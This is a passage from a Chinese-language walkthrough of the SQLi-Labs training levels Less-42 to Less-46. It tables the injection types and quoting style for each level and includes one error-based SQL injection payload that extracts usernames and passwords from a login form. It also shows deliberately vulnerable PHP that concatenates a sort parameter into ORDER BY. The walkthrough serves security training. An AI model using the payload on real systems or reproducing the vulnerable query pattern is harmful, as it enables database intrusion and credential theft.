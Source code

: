 ```payload
login_user=admin&login_password=1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT(SELECT CONCAT(CAST(CONCAT(username,password) AS CHAR),0x7e)) FROM users LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)#&mysubmit=Login
```

同理这里也可以进行盲注和堆叠查注入

# Less-43

| 请求方式 | 注入类型                                 | 拼接方式                 |
| :------- | :--------------------------------------- | :----------------------- |
| POST     | 联合、报错、布尔盲注、延时盲注、堆叠注入 | `username=('$username')` |

和 Less-42 的利用方式一致，这里只是拼接方式不一样而已，只不过多了一个c’); 

# Less-44

| 请求方式 | 注入类型                           | 拼接方式               |
| :------- | :--------------------------------- | :--------------------- |
| POST     | 联合、布尔盲注、延时盲注、堆叠注入 | `username='$username'` |

和 Less-43 的利用方式一致，因为没有输出报错信息，所以这里少了报错注入的利用方式。

# Less-45

| 请求方式 | 注入类型                           | 拼接方式                 |
| :------- | :--------------------------------- | :----------------------- |
| POST     | 联合、布尔盲注、延时盲注、堆叠注入 | `username=('$username')` |

与 Less-43 闭合方式一致，只是这里少了报错注入的利用方法。

# Less-46

| 请求方式 | 注入类型                 | 拼接方式       |
| :------- | :----------------------- | :------------- |
| GET      | 报错、布尔盲注、延时盲注 | `ORDER BY $id` |

```php
# GET 方式获取 sort 参数
$id=$_GET['sort'];

# 直接将 id 带入 SQL 中
$sql = "SELECT * FROM users ORDER BY $id";

if 查询成功：
    输出查询信息
else：
    print_r(mysql_error());
```
